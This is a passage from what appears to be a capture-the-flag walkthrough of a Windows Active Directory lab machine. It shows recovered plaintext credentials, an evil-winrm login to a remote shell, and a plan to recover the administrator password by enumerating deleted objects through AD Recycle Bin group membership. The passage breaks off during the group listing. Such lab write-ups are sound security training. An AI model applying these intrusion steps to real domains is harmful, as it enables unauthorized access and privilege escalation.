 ![](assets/Pasted%20image%2020250510140553.png)

So `arksvc:w3lc0meFr31nd`

Reenter with the `arksvc` user.

```shell
$ evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
```

This user is in the `AD Recycle Bin` group and we know that a user `TempAdmin` with the same password as `administrator` has been deleted, so by enumerating deleted objects we can get the admin's password.

```shell
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
```